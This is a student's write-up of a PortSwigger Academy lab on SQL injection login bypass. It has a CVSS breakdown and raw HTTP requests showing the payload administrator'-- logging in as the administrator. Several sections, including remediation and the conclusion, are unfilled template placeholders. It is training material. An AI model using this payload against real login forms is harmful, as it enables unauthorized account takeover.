

# Lab02: SQL injection vulnerability allowing login bypass

**Target:**  PortSwigger Academy - SQL injection vulnerability allowing login bypass
**Lab URL:** `https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-subverting-application-logic/sql-injection/lab-login-bypass`  
**Date:** August 13. 2025  
**Tester:** piz1va0n  
**Duration:** -

---

## Executive Summary

**Vulnerabilities Found:** 1 Total  
**Risk Breakdown:** 0 Critical | 1 High | 0 Medium | 0 Low

**Key Issues:**

- SQL injection vulnerability in login form allowing authentication bypass
- Unauthorized administrative access through malicious SQL payload

**Overall Risk:** HIGH  

---

## Scope and Methodology

### Test Scope

**In-Scope Targets:**

- Host: `0ae700c103b9f35c803d497900c100e2.web-security-academy.net`
- Login functionality and authentication mechanisms
- User input validation on login form

### Testing Methodology

**Standards and Frameworks:**

- OWASP Testing Guide v4.2
- OWASP Top 10 2021

**Testing Phases:**

1. **Reconnaissance** - Application mapping and ogin form analysis
2. **Vulnerability Discovery** - SQL injection testing on login parameters
3. **Exploitation** - Authentication bypass proof-of-concept
4. **Impact Assessment** - Evaluate technical and business impact
5. **Documentation** - Record findings and remediation guidance

**Tools and Techniques:**

- Burp Suite Community Edition
- Web Browser (FireFox)
- Manual payload crafting and testing
- Kali Linux

---

## Findings Summary

### Risk Distribution

Critical: 0 findings
High:     1 findings  
Medium:   0 findings
Low:      0 findings
Info:     0 findings

### OWASP Top 10 Coverage

| Category | Finding | Risk | Status |
|----------|---------|------|--------|
| A01: Broken Access Control | Authentication Bypass | High | ✓ |
| A02: Cryptographic Failures | - | - | ✗ |
| A03: Injection | SQL Injection in Login Form | High | ✓ |
| A04: Insecure Design | - | - | ✗ |
| A05: Security Misconfiguration | - | - | ✗ |
| A06: Vulnerable Components | - | - | ✗ |
| A07: Authentication Failures | - | - | ✗ |
| A08: Software/Data Integrity | - | - | ✗ |
| A09: Logging/Monitoring | - | - | ✗ |
| A10: SSRF | - | - | ✗ |

---

## Detailed Findings

### [CRITICAL/HIGH/MEDIUM/LOW]: [Finding Title]

**OWASP Category:** A01 - Broken Access Control, A03 - SQL Injection  
**CVSS Score:** 8.1 (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N)

**CVSS v3.1 Breakdown:**

|||
|-|-|
| Attack Vector (AV): | Network |
| Attack Complexity (AC): | Low |
| Privileges Required (PR): | None |
| User Interaction (UI): | Required |
| Scope (S): | Unchanged |
| Confidentiality (C): | High |
| Integrity (I): | High |
| Availability (A): | None |

**Location:** Login form - Username parameter

**Affected Parameters:**

- `username` - Vulnerable to SQL injection
- `password` - Part of vulnerable SQL query construction

**Description:**  

The website's log-in functionality contain SQL Injection vulunerability. The vulunerability occurs because input form of username field is directly connected into a SQL query without filter or parameterization. This make attacker can manipulate the SQL query logic and bypass authenication control.

**Impact:**

- **Technical Impact:** Complete authentication bypass, unauthorized administrative access.
- **Business Impact:** Unauthorized access to sensitive administrative functions, In this lab attacker can change the E-mail address.

### Proof of Concept

#### Step 1: Normal Request (Baseline)

```http
POST /login HTTP/2
Host: 0ae700c103b9f35c803d497900c100e2.web-security-academy.net
Cookie: session=mAckIuEwmtz9GFHESn1z8FcmGKYOgF35

csrf=xVxXemZPSlolHGwHAS8NnYj1qYCuyG5S&username=administrator&password=1234
```

**Response:**

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3227
```

<!--  -->

#### Step 2: SQL Injection Exploitation

```http
POST /login HTTP/2
Host: 0ae700c103b9f35c803d497900c100e2.web-security-academy.net
Cookie: session=mAckIuEwmtz9GFHESn1z8FcmGKYOgF35

csrf=xVxXemZPSlolHGwHAS8NnYj1qYCuyG5S&username=administrator'--&password=1234
```

**Response:**

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=jgzZ3IkCcYxsdKvq08QwACaw2BDa7BX8; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```


#### Step 3: Validation of Exploitation

**Screenshots:**


- [Description of screenshot 1]
  


- [Description of screenshot 2]
  


- [Description of screenshot 3]

**Evidence Files:**

### Remediation

1. [Immediate action 1 - specific technical step]
2. [Immediate action 2 - specific technical step]
3. [Immediate action 3 - specific technical step]

---

## Conclusion

Lorem ipsum

### Assessment Summary

This penetration test successfully

## Lab Learning Summary

**Skills Practiced:**

- Manual SQL injection identification and exploitation

**Key Takeaways:**

- Understanding

**Technical Learning:**

- Understanding
  
---
